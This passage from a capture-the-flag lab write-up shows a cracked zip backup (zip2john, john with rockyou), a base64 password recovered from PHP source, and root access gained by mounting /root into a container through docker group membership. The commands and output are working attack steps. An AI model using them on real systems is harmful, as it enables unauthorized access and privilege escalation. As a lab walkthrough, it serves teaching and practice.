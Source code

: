 and `john` came again to the rescue.

```shell
$ zip2john backup.zip > backup_zip_hash.txt

$ john --wordlist=/usr/share/wordlists/rockyou.txt backup_zip_hash.txt
```

## getting second user login

the password worked and i got a new file `source-code.php`
in this file i found a base64 encoded password.

```php
password = $_POST["password"];
                if(base64_encode($password) == "IWQwbn************NzdzByZA==")
```

decoding with:

```shell
echo -n "IWQwbn************NzdzByZA==" | base64 -d
```

and for which account i could see a few lines further down.

```php
{
	echo "Welcome Anurodh!";
	header("Location: authenticated.php");
}
```

using these credentials i got a new login.
this user is a member of the `docker` group. with this info i escalate my privileges like this.

## root access

```shell
$ su anurodh
Password:
anurodh@ubuntu:/var/www/files$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)

anurodh@ubuntu:/var/www/files$ docker image ls
REPOSITORY    TAG     IMAGE         ID  CREATED   SIZE
alpine        latest  a24bb4013296  2   years ago 5.57MB
hello-world   latest  bf756fb1ae65  2   years ago 13.3kB

anurodh@ubuntu:/var/www/files$ docker run -v /root/:/mnt -it alpine
/ # ls
bin etc lib mnt proc run sry tmp var
dev home media opt root sbin sys usr
/ # cd mnt
/mnt # ls
proof.txt
/mnt # cat proof.txt 
```

and here is the root flag.

![image](/images/Pasted image 20221019094035.png)
